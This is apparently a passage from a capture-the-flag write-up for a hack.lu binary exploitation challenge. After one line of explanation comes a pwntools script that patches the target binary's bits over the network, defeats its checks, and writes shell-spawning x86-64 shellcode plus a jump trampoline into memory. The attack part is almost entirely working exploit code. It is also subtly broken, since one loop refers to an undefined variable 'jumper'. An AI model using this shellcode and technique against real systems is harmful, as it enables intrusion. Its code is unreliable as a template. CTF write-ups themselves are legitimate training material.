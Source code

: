 We will have to xor each byte we write with the actual value of the location we write to.
Using pwn.ELF make suchs things easy.


But enough talk, here is the code  :

```python
from pwn import *
from sys import *
from time import sleep

if '-d' in argv:
    context.log_level=1

if '-r' in argv:
    s = remote('flatearth.fluxfingers.net',1744)
else:
    s = process(['/usr/bin/env','-','/home/gov/hack/ctf/hack.lu/pwn_1/bit'])


e=ELF('/home/gov/hack/ctf/hack.lu/pwn_1/bit')


sleep(.2)
s.send('400713:0' + '\n')    # Loop the prog
log.info('Binary looped!')

sleep(.2)
s.send('400714:7' + '\n')    # break mprotect reset
log.info('broke mprotect reset!')

sleep(.2)
s.send('40069d:7' + '\n')    # break char range
log.info('char range')

sleep(.2)
s.send('4006ef:1' + '\n')    # bypass shl \o/
log.info('disable shift')



sc="\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

pos=0
for i in range(0x600960,0x600960+len(sc),1):
    byte=ord(sc[pos])
    s.send('{}:{}\n'.format( hex(i)[2:],byte))
    log.info('Writting {} at {}'.format(hex(byte),hex(i)))
    pos+=1


# push 0x600960 ; ret
trampoline="\x68\x60\x09\x60\x00\xc3"

# this zone is not empty so I have to xor with existing byte (thanks to pwn.ELF)
pos=0
for i in range(0x40068b,0x40068b+len(jumper),1):
    byte=ord(trampoline[pos]) ^ ord(e.read(i,1))
    s.send('{}:{}\n'.format( hex(i)[2:],byte))
    log.info('Writting {} at {}'.format(hex(byte),hex(i)))
    pos+=1


# trigger branching on 0x4006a0 where the trampoline is written
```